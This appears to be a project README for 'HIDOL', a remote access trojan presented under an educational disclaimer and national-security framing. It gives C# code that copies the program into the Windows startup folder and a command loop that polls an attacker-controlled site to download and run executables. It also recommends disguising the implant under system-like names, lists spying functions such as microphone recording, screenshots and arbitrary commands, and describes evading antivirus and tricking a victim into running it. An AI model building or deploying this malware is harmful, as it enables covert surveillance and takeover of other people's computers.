 <img src="https://raw.githubusercontent.com/RobinHannanJanssen/HIDOL/main/LOGO.png">
<h3>The High Doses Of Lemon Project</h3>Experimental intelligence gathering from devices compromised with HIDOL
<br>

# Disclaimer
- I, the creator, am in no way responsible for any actions that you may make using this information. 
- You take full responsibility for any action taken using this information. 
- Please take note that this document was designed for educational purposes and should never be used maliciously. 

# Introduction
Cyber threats are one of the biggest threats faced by National Security today. According to the October 2020 report of the Homeland Threat Assessment by the Department of Homeland Security, **Cyberattacks** remain the number one threat. Taken from <a href="https://www.dhs.gov/sites/default/files/publications/2020_10_06_homeland-threat-assessment.pdf" target="_blank">dhs.gov</a>:
> Cyber threats to the Homeland from both nation-states and non-state actors will remain acute. U.S. critical infrastructure faces advanced threats of disruptive or destructive cyber-attacks. Federal, state, local, tribal and territorial governments, as well as the private sector, will experience an array of cyber-enabled threats designed to access sensitive information, steal money, and force ransom payments.

In order, to combat Cyberattacks against a nation or country, an organization should have the ability to distinguish, imitate and ace the methods of present cyberattacks. 
> This is where intelligence comes in.

# How it works
Several variables contribute to how HIDOL functions properly. A combination of covert communications while maintaining stealth is the key to how HIDOL functions. Take a look at the function diagram below:

<img src="https://raw.githubusercontent.com/RobinHannanJanssen/HIDOL/main/architecture.png">

Contrary to what you think, HIDOL is not one single program. Like i said before, several variables contribute such as **covert communications**; we shall use Python as the programming language for the control panel, as Python is extremely useful and much easier when working with scraping. 

We shall have the Target application created using C#. C# is one of the best options when targeting Windows only programs, but Java or something else might do. The app should be named something unsuspicious like **Runtime Dllhost** or **webUtc**. There will be a timer with an interval of seconds to visit the referrer site and check for the latest instruction. The target app will make sure it is set to *Run on startup* without administrative rights. This is possible to do so using a simple copy:
```csharp
static void AddToStartup() {
    try {
    	string exe_path = Application.ExecutablePath;
    	string startup_path = Environment.GetFolderPath(Environment.SpecialFolder.Startup) + "\\" + System.AppDomain.CurrentDomain.FriendlyName;

        System.IO.File.Copy(exe_path, startup_path);
    }
    catch { }
}
```

Having a domain or DNS hosted is a must, as both the control panel and the target application depends on having a referrer in which communications and information posts takes place.

A normal conversation between the control panel, the referrer and the target app would need an instruction. The control panel (a.k.a you) edits a webpage (of DNS or domain) string. For example, you want the target app to download a file and run it. The comparison between the pseudo instruction and the string that the program would understand is:
- Pseudo instruction: `Download file from https://example.com/example.exe`
- String displayed on DNS: `DOWNLOAD https://example.com/example.exe`

When the target app makes the next web request, it will undergo a function like this:
```csharp
//make instruction to site and set contents to string
string instruction = Request({{YOUR_SITE}});

if (instruction.Contains("DOWNLOAD")) {
    //extract instruction from site
    string[] splitted = instruction.Split(' ');
    string url = splitted[1].ToString();

    //acknowledge file as .exe
    string path = Application.StartupPath + "\\" + "program.exe";

    //download the program
    WebClient Client = new WebClient();
    Client.DownloadFile(new Uri(url), path);

    //run file
    System.Diagnostics.Process.Start(path);
}
```

Up to this point, the downloaded program runs and captures information such as OS information and local IP address. The program then posts that information back to the DNS on a separate page, where it logs the info. The control panel would then login to that DNS or domain to gather the information which was stored. But we may also use SMTP using Gmail to send the info to your email.

# Usage
We can get very creative and add functions which will guarantee (almost) full control over the target computer. Such as the following:
- Record the device microphone for a given amount of time
- Take a screenshot of the target's computer
- Download a file and run it (e.g: .mp3, .exe)
- Run a CMD command (we would be able to find local files this way)
- Display message to the target device
- Run the browser to a specific URL
- Stay stationary/Stop any previous instruction

There is no doubt that a program with these capabilities would raise the suspicion of **Antivirus softwares**. According to <a href="https://www.virustotal.com/gui/file/005f6a68736937d2ed265a2dbee7123a72f5a47abfd2db24349d6c636c7d2439/detection" target="_blank">virustotal.com</a>, the target app had a **11** out of **70** suspicion rate (which is not that bad).

# Deployment
- Since we are using C# as the target app language, we must ensure that the target device has a .NET framework installed. We shall use framework version 3.5 as according to <a href="https://docs.microsoft.com/en-us/dotnet/framework/migration-guide/versions-and-dependencies#net-framework-35" target="_blank">docs.microsoft.com</a>, version 3.5 is already included in Windows 10, 8.1, 8 and 7. So we can be sure that the target device has already satisfied this requirement.
- To get HIDOL to work, we need a target device to compromise with. This means finding a target who uses the computer. And somehow finding a way to get the target to double-click on the target app. Otherwise, you may have physical access to the computer, you can do it yourself. All it takes is a double-click.
- From that moment you double-clicked, the target app will remain indefinitely. We may want to add an `Uninstall` function, in case the target user finds out.
- Finally, we will be able to conduct our experiment on the target device.

# Pros and Cons
### Pros
- An alternative to information gathering using port forward
- Does not require administrative rights
- Able to conduct functions as a normal user
- (Almost) free from antivirus software
- Access to files, drivers, etc
- Being able to conduct stealth

### Cons
- Tough installation
- Delayed instruction during timer interval
- Not real-time information
- Unable to conduct multiple tasks at once

# Conclusion
There are multiple ways of gathering intelligence, for government agencies, this would be a much easier task. The intelligence community seeks to reduce uncertainty and provide warning about potential threats to its National security. Per the example above, we have used a fixed environment as an operating system, and we were able to exploit that environment even with its limitations. By adding these methods to the existing capabilities of cybersecurity, we're not only bolstering our security operations effectiveness, but we are also greatly improving the safety and protection against these techniques, in the cyber world.

# Credits
- [Robin](https://github.com/robinhannanjanssen) - Lead designer
